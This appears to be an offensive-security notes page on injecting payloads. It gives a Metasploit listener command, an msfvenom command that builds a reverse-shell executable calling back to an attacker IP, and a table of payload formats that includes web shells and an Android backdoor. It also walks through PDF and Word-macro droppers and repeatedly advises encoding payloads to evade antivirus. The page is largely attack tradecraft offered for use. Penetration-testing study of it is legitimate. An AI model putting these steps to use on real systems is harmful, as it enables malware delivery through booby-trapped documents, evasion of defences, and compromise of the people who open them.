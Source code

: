 # Injecting Payload

## &#x20;Listener&#x20;

```bash
use exploit/multi/handler
```

## Msfvenom to other file

```bash
msfvenom -p <payload> LHOST=YOUR_IP LPORT=4444 -f exe -o payload.exe
```

{% embed url="https://www.clawnix.com/" %}

🧩 `msfvenom` Payload Format Table

| Format Type              | `msfvenom` Flag (`-f`) | File Extension | Typical Use Case                             |
| ------------------------ | ---------------------- | -------------- | -------------------------------------------- |
| **Windows Binary**       | `exe`                  | `.exe`         | Windows executable backdoor or dropper       |
| **Dynamic Link Library** | `dll`                  | `.dll`         | DLL injection or sideloading                 |
| **PowerShell Script**    | `ps1`                  | `.ps1`         | In-memory execution via PowerShell           |
| **Batch Script**         | `raw` (as `.bat`)      | `.bat`         | Simple batch-based payload delivery          |
| **Shellcode (C)**        | `c`                    | `.c`           | Inject into custom C programs                |
| **Shellcode (Python)**   | `python`               | `.py`          | Use with Python loaders                      |
| **Shellcode (Raw)**      | `raw`                  | `.bin`         | Custom loaders or memory injection           |
| **HTA Payload**          | `hta-psh`              | `.hta`         | Used in phishing and browser-based delivery  |
| **Java Payload**         | `jar`                  | `.jar`         | For exploiting Java apps or JNLP delivery    |
| **Android APK**          | _(no flag needed)_     | `.apk`         | Android device backdoor                      |
| **Linux ELF**            | `elf`                  | `.elf`         | Executable on Linux systems                  |
| **macOS Mach-O**         | `macho`                | `.macho`       | Payloads for macOS targets                   |
| **PHP Web Shell**        | `raw`                  | `.php`         | Upload to web servers for command execution  |
| **ASP Web Shell**        | `asp`                  | `.asp`         | Exploit ASP-based web servers                |
| **JSP Web Shell**        | `jsp`                  | `.jsp`         | Target Java-based web servers (Tomcat, etc.) |

## Veil Evasion EXE&#x20;

Better msfvenom

{% content-ref url="../defense-evasion/av-evasion-and-obfuscation/encoding/payload-encoding-obfuscation.md" %}
[payload-encoding-obfuscation.md](../defense-evasion/av-evasion-and-obfuscation/encoding/payload-encoding-obfuscation.md)
{% endcontent-ref %}

## PDF Payload

### Metasploit exploits

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe`

* **Description**: Embeds an EXE into a PDF using **JavaScript** for execution.
* **Technique**: Leverages **JavaScript triggers** inside the PDF to execute the embedded EXE when the victim opens the file.
* **More reliable** on older versions of Adobe Reader where JavaScript execution is enabled.
* **More likely to be flagged** by AV or sandbox because JavaScript in PDFs is a red flag.

#### 🔥 Pros:

* Higher chance of execution **if JavaScript is allowed**.
* Can be more dynamic and interactive (e.g., auto-launch on open).

#### ❌ Cons:

* Depends on **JavaScript being enabled** in Adobe Reader.
* Newer versions of Adobe Reader **disable or restrict JS** by default.
* Easier for security tools to detect.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

***

📄 `exploit/windows/fileformat/adobe_pdf_embedded_exe_nojs`

* **Description**: Same as the above but **without JavaScript**.
* **Technique**: Embeds the EXE inside a PDF **without using JS to trigger it**.
* Requires **manual interaction** by the victim (e.g., double-clicking a file icon inside the PDF).
  * Less suspicious to AV because it doesn’t rely on script-based triggers.

#### 🔥 Pros:

* **Better AV evasion** — no JavaScript means fewer red flags.
* **Works even if JavaScript is disabled** in Adobe Reader.

#### ❌ Cons:

* **Less reliable** because it depends on user interaction.
* May be harder to convince someone to execute the embedded EXE.

{% hint style="warning" %}
To encode the pdf to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}

### Pdf revshell maker

{% embed url="https://github.com/ASTRA-LabsHQ/Malware-Development/tree/main" %}

{% file src="../../../../.gitbook/assets/PDFReverseShell.zip" %}

{% embed url="https://www.youtube.com/watch?v=ygrVBsBw31Y" %}

### Setoolkit

Modules

## &#x20;MS Word Payload

```
use exploit/windows/fileformat/office_word_macro
```

* Generates `.doc` file with VBA macro that drops & runs a payload.
* Works regardless of Office version **if macros are enabled**.
* AV may catch the macro or payload — obfuscation is key.

{% hint style="warning" %}
To encode the word file to avoid AV we need to use a custom msfvenom exe and not the default exploit exe, that we encoded and then on the exploit settings we set the exe
{% endhint %}
